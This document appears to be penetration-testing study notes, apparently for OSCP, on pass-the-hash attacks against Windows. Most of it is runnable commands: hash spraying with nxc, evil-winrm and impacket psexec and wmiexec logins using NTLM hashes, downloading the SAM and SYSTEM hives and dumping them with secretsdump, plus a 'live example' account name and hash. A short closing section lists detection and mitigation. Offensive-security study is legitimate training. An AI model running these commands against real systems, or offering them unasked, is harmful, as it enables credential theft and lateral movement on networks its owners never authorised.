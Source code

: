 # Pass-The-Hash (PtH)
**What:** Use an NTLM hash directly to authenticate against SMB/WMI/other services (no plaintext password).  
**Privileges needed:** Valid NTLM hash for an account with access to target.  
**Common tools:** Impacket (`psexec.py`, `wmiexec.py`, `smbexec.py`), nxc.

--- 
## Hash Spray!
```bash
# bruteforce all hashes against all users
nxc smb 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success
nxc winrm 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success
nxc ldap 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success
nxc wmi 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success
```
## WINRM
```bash 

# winrm TCP 5985 / 5986
evil-winrm -u celia.almeda  -H 'e728ecbadfb02f51ce8eed753f3ff3fd'  -i 10.10.158.142		
# evil-winrm has build in upload functionality, using that instead .. 
# Upload is from directory evil-winrm was luanched in
upload winPEASx64.exe .
*Evil-WinRM* PS C:\windows.old\windows\system32> download SAM
*Evil-WinRM* PS C:\windows.old\windows\system32> download SYSTESM

secretsdump.py -sam SAM -system SYSTEM LOCAL

```
---
## SMB
```bash
# Use only NTLM hash (no LM): -hashes LMHASH:NTLMHASH ; if no LM, use :NTLMHASH 
impacket-psexec CORP\\Administrator@10.0.0.5 -hashes :<NTLM_HASH>

# OSCP-A live example
impacket-psexec -hashes 00000000000000000000000000000000:e728ecbadfb02f51ce8eed753f3ff3fd celia.almeda@10.10.158.142 

# ?
impacket-psexec oscp.exam/administrator@192.168.1.1 -hashes :NTLM_HASH


nxc smb 10.0.0.0/24 -u Administrator -H <NTLM_HASH> -x "whoami /all"

smbclient \\\\10.10.158.142\\secrets -U celia.almeda --pw-nt-hash e728ecbadfb02f51ce8eed753f3ff3fd
```

---
## WMI
```bash
impacket-wmiexec CORP\\svcacct@10.0.0.8 -hashes :<NTLM_HASH>

impacket-wmiexec oscp.exam/administrator@192.168.1.1 -hashes :NTLM_HASH
impacket-wmiexec oscp.exam/administrator@192.168.1.1 -hashes LM_HASH:NTLM_HASH


```
---
## 
```bash

```
## **Detection / Mitigation**

- Detect lateral auth using NTLM hashes, anomalous SMB/WMI sessions, and use of NTLM across hosts.
    
- Mitigate by: prefer Kerberos, patching, local admin separation, LSA protection, enforce SMB signing, reduce exposed NTLM usage, and rotate/limit credential scope.
    

---
